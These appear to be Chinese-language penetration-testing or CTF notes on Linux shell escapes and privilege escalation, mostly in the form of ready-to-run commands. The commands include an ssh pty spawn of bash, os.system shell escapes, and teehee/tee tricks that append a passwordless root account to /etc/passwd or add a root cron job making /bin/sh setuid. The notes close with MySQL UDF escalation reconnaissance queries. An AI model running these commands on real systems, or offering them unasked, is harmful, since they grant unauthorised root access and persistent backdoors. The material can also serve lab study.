 
### ssh逃逸
```
ssh mindy@61.139.2.158  "export TERM=xterm;python -c  'import pty;pty.spawn(\"/bin/bash\")'"
```

## echo
```
echo os.system("/bin/bash")
```
## teehee提权
可以看到使用teehee提权,teehee就是tee的变体从标准输入读取并写入标准输出和文件

我们可以借助teehee往passwd写入一个root账号即可得到root权限

/etc/passwd格式
username:password:User ID:Group ID:comment:home directory:shell

echo "admin::0:0:::/bin/bash" | sudo teehee -a /etc/passwd

### teehee定时提权
```
sudo teehee /etc/crontab
* * * * * root chmod 4777 /bin/sh
```
## echo逃逸
echo os.system("/bin/bash")



# mysql的udf逃逸
{ #c66e64}


## 1. 查看能否允许导入导出文件
```
 show variables like "%secure_file_priv%"
```

secure_file_priv是用来限制load dumpfile、into outfile、load_file() 函数在哪个目录下拥有上传或者读取文件的权限。

当 secure_file_priv 的值为 null ，表示限制 mysqld 不允许导入|导出，此时无法提权
当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，
此时也无法提权 当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权

## 2. 看是否是最高权限
```
 select * from mysql.user where user = substring_index(user(), '@', 1) ;
```
## 3. 查看plugin的值
```
select host,user,plugin from mysql.user where user = substring_index(user(),'@',1);
```
